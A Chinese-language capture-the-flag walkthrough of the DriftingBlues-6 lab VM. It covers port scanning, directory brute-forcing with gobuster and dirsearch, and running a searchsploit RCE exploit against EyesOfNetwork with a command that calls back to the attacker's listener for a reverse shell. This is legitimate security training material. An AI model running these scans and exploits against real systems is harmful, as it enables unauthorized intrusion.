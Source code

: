 # 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.65`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`

![](./pic-7/1.jpg)

# 信息收集

## 使用nmap扫描端口

![](./pic-7/2.jpg)

- SSH服务，在22端口
- HTTP服务有四个
  - 端口66，由`python2`开启的简易服务
  - 端口80和443，由`apache2`提供的服务
  - 端口8086，扫描出的服务，并未碰到过，`infludb`
- RPCbind服务，端口111
- 未知服务`taskmaster2000`，端口2403
- 数据库服务，3306端口，并且服务类型也扫出

Taskmaster 是一个用于管理 Windows 任务计划的 Go 语言库。它允许用户在本地或远程机器上轻松创建、修改、删除、执行、终止和查看计划任务。与 Windows 自带的任务计划程序 GUI 和 PowerShell cmdlets 相比，Taskmaster 提供了更快的速度和更强大的功能。

## 服务探测

访问66端口，发现是一个HTML页面，并且点击页面功能，都只是在当前页面，也就是这里就是一个HTML页面，无其他东西

![](./pic-7/3.jpg)

访问80端口，发现会直接跳转至443端口，且是一个登录界面

![](./pic-7/4.jpg)

访问8086端口，提示未找到界面，不过这里可能是自定义的`404`界面

![](./pic-7/5.jpg)

## 网站目录爆破

使用`gobuster、ffuf、dirsearch、dirb`等工具

爆破66端口的HTTP服务

```shell
gobuster dir -u http://192.168.1.65:66 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```

![](./pic-7/6.jpg)

爆破80端口，也就是默认的

```shell
dirsearch -u http://192.168.1.65 -e .zip -x 403,404 -t 200
```

![](./pic-7/6-1.jpg)

爆破8086端口

```shell
gobuster dir -u http://192.168.1.65:8086 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```

![](./pic-7/6-2.jpg)

爆破443端口，也就是`https`服务

```shell
dirsearch -u https://192.168.1.65 -x 403,404 -t 200 --exclude-sizes=196B
#这里的--exclude-sizes=196B 是因为在默认界面就是这个字节，并且没加该参数前，大部分都是跳转到这个默认界面，没有参考价值
```

![](./pic-7/6-4.jpg)

## 网站指纹识别

使用`whatweb`进行测试`80、443、66、8086`端口

![](./pic-7/6-3.jpg)

# 漏洞寻找

## 访问66端口扫描出的目录

访问并下载`.bash_history`，查看其中的内容

![](./pic-7/7.jpg)

当前目录下，有`flag.txt`，查看，说是`flag 1/1`，结束了?

![](./pic-7/8.jpg)

## 访问443端口目录

首先还是了解这个`eyes of network`

> EyesOfNetwork（EON）是一套开源的、免费的IT监控解决方案。该方案提供业务流程配置工具、在活动队列中发生事件时生成弹出窗口等功能。eonweb是其中的一个Web界面。eonweb 5.3-7版本至5.3-8版本存在SQL注入漏洞，该攻击者可利用该漏洞利用includes/functions.php文件(由login.php调用)中的用户名可用函数



访问`README.md`，发现一个接口版本

![](./pic-7/9.jpg)

使用`searchsploit`查看有无该版本对应的历史漏洞

![](./pic-7/10.jpg)

使用远程代码执行的RCE，使用`locate`定位文件位置，然后复制到当前目录，进行相关操作

这里该文件其实是`python`脚本，可以自己查看，里面也有用法

![](./pic-7/11.jpg)

```shell
python3 exp.py https://192.168.1.65 -ip 192.168.1.16 -port 1234
#这里的-ip是指kali的地址，也就是监听地址，-port是kali监听端口
```

![](./pic-7/12.jpg)

查看文件

![](./pic-7/13.jpg)



好吧，这里其实应该和网站访问的差不多

# 总结

1. 这个其实主要考察的是对于网站目录的扫描等操作
2. 考察对于`http`服务版本探测，以及要会寻找历史版本漏洞，有可用`exp`就可以直接使用





























